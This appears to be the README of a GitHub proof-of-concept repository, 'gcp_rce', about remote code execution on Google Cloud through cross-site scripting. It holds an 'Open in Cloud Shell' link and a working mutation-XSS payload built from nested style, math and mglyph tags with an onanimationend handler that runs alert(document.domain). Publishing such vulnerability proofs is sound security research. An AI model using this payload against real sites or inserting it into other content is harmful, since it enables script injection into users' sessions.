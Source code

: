 # gcp_rce
Remote Code Execution on GCP through XSS - PoC

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github.com/Nowasky/gcp_rce.git&page=editor&tutorial=README.md)

<style>@keyframes x{}</style>
<math><mtext><table><mglyph><style><x style="animation-name:x" onanimationend="alert(document.domain)">

